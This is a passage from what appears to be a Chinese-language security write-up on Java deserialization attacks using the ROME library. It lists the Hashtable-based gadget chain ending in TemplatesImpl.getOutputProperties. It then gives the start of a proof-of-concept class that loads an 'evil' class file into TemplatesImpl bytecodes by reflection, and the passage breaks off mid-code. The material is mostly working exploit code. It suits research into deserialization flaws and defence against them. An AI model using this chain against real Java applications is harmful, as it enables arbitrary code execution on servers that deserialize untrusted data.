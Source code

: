 ```java
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```



### HashTable链

适用于HashMap被ban的情况

利用链

```java
HashTable.readObject(ObjectInputStream)
HashTable.reconstitutionPut()              
ObjectBean.hashCode()
EqualsBean.hashCode()                  
EqualsBean.beanHashCode()
ToStringBean.toString()
ToStringBean.toString(String)
TemplatesImpl.getOutputProperties()
```

HashTable.readObject会对每个键值对调用reconstitutionPut

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240923194707731.png)

POC：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Hashtable;

//HashTable.readObject(ObjectInputStream)
//HashTable.reconstitutionPut()
//ObjectBean.hashCode()
//EqualsBean.hashCode()
//EqualsBean.beanHashCode()
//ToStringBean.toString()
//ToStringBean.toString(String)
//TemplatesImpl.getOutputProperties()
public class Rome_HashTable {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
```